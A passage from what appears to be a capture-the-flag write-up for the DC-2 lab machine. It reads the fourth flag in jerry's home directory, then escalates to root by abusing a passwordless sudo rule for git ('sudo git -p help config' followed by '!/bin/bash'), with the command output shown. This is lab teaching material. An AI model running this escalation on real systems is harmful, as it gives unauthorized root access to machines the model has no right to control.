 ## Fourth flag

Let's read the 4th flag, in `jerry`'s home:

~~~
jerry@DC-2:~$ ls -la /home/jerry/
total 28
drwxr-xr-x 2 jerry jerry 4096 Mar 21  2019 .
drwxr-xr-x 4 root  root  4096 Mar 21  2019 ..
-rw------- 1 jerry jerry  109 Mar 21  2019 .bash_history
-rw-r--r-- 1 jerry jerry  220 Mar 21  2019 .bash_logout
-rw-r--r-- 1 jerry jerry 3515 Mar 21  2019 .bashrc
-rw-r--r-- 1 jerry jerry  223 Mar 21  2019 flag4.txt
-rw-r--r-- 1 jerry jerry  675 Mar 21  2019 .profile
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
~~~

# Final flag (root flag)

## Privilege escalation

Checking `jerry`'s privileges reveals that we can run `git` as `root` without password:

~~~
jerry@DC-2:/$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/git/#sudo) reveals that we can exploit this to elevate our privileges:

~~~
jerry@DC-2:/$ sudo git -p help config

[REDACTED]

!/bin/bash
root@DC-2:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~
